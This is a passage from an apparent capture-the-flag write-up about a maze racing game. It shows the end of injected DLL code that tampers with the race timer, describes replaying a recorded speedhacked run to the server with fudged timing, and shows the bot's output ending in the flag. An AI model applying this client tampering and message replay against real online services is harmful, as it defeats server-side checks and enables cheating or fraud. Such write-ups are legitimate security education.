			serverManager->racemanager_->last_checkpoint_ = serverManager->lastHeartbeat_;
			std::cout << "Keeping race checkpoint time in sync with heartbeat: " << serverManager->racemanager_->last_checkpoint_ << " " << serverManager->lastHeartbeat_ << std::endl;
		}
		Sleep(10);
	}
	fclose(f);
	FreeConsole();
	FreeLibraryAndExitThread(hModule, 0);
	return 0;
}
```

So it was finally time to write a bot that runs the race! I had the checkpoint coordinates from game memory, but I didn't have a map of the maze walls and I didn't want to spend time implementing any complicated path finding algorithm so I thought I would record one of the speedhacked maze runs and replay that to the server, potentially using fudged time.

It took some effort, first because in the beginning we are always teleported to a random position so we have to find a position from the the path so we can follow it, and second because passing through the teleporter to the start of the race wasn't working consistently for me. I decided to move the bunny to the teleporter myself, then after teleportation I would start following the other path. This worked! Replaying all messages took less than 5s so I got the flag! This was the saturday before the contest ended so I didn't spend more time trying to optimize for a better time.

```golang
$ cd maze && go run .
[...]
Reached position 1110/1337 {1197711 0 1600571}
Reached position 1120/1337 {1208293 0 1638216}
Reached position 1130/1337 {1202486 0 1696282}
Reached position 1140/1337 {1186385 1500 1760184}
Reached position 1150/1337 {1146041 1500 1807625}
Reached position 1160/1337 {1134343 0 1865169}
Reached position 1170/1337 {1126560 0 1930615}
Recv:       race||0a|
Recv:       race||0a|
Reached position 1180/1337 {1083695 0 1925268}
Reached position 1190/1337 {1007050 0 1944723}
Reached position 1200/1337 {1005774 0 1892938}
Reached position 1210/1337 {987899 0 1833253}
Reached position 1220/1337 {960585 0 1857077}
Reached position 1230/1337 {896429 0 1869827}
Reached position 1240/1337 {853183 0 1906632}
Reached position 1250/1337 {833940 0 1961092}
Reached position 1260/1337 {816400 0 2020846}
Reached position 1270/1337 {796027 0 2041200}
Reached position 1280/1337 {772771 0 2086745}
Recv:       race||0b|
Recv:       race||0b|
Reached position 1290/1337 {738450 0 2094350}
Reached position 1300/1337 {679925 0 2099562}
Reached position 1310/1337 {621069 0 2105224}
Recv:       0x43||5343477b|4e335645|525f5452|5553545f|54313131|314d457d|
Recv:       0x43||5343477b|4e335645|525f5452|5553545f|54313131|314d457d|
Press enter to continue
Recv:       0x55||ff13|

CSCG{N3VER_TRUST_T1111ME}
```
